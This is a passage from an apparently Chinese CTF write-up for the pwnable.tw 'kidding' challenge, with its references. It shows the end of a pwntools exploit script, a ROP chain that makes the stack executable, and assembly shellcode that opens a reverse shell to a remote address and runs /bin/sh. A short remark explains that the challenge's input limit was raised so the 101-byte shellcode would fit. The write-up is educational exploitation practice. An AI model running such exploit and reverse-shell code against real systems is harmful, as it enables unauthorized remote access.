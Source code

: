 ```python
             p32(peax_ret)+p32(libc_stack_end)+\
             p32(dl_make_stack_executable)+p32(push_esp_ret)
    print("paylioad:{:d}".format(len(payload)))

    #2.reverse shell
        #2.1.socket(AF_INET(2),SOCK_STREAM(1),0)
    shellcode="push 0x1;pop ebx;push eax;push ebx;push 2;"+\
                "mov ecx,esp;mov al,0x66;int 0x80;"
        #2.2.dup2(0,1) 
    shellcode+="pop esi;pop ecx;pop ebx;mov al,0x3f;int 0x80;"
        #2.3.connect(0,addr,addrlen)
    shellcode+="mov al,0x66;push ebp;push ax;push si;mov ecx,esp;"+\
            "push cs;push ecx;push ebx;mov ecx,esp;mov bl,3;int 0x80;"
        #2.4.excv("/bin/sh",0,0)
    shellcode+="mov dl,al;pop ecx;mov al,0xb;push 0x68732f;push 0x6e69622f;mov ebx,esp;int 0x80;"
    print("shellcode:{:d}".format(len(asm(shellcode))))
    print("Total:{:d}".format(len(payload)+len(asm(shellcode))))
    s(payload+asm(shellcode))
    #debug()
    itr()

exp()

```

> 题目限制输入字符长度为100，但是最终写出的shellcode长度为101，但是感觉没有地方可以继续精简了，于是把题目长度改为了110来测试的脚本。（师傅们如果写出了更简短的sehllcode，望告知，感谢！

## 参考

[socketcall-Linux man page](https://man7.org/linux/man-pages/man2/socketcall.2.html)

[socket-linux-man-page](https://man7.org/linux/man-pages/man2/socket.2.html)

[connect-linux-man-page](https://man7.org/linux/man-pages/man2/connect.2.html)

[ip-linux-man-page](https://man7.org/linux/man-pages/man7/ip.7.html)

[Play with file descriptor(Ⅰ)](https://m4x.fun/post/play-with-file-descriptor-1/)

[Play with file descriptor(Ⅱ)](https://m4x.fun/post/play-with-file-descriptor-2/)

[Play with file descriptor(Ⅲ)](https://m4x.fun/post/play-with-file-descriptor-3/)

[Linux反弹shell（一）文件描述符与重定向](https://xz.aliyun.com/t/2548)

[Linux 反弹shell（二）反弹shell的本质](https://xz.aliyun.com/t/2549)

[pwnable.tw kidding](https://x3h1n.github.io/2019/04/14/pwnable-tw-kidding/)

[kidding-wp](https://github.com/ntu-homeworks/ctf-final/blob/master/pwn/kidding/solver.py)
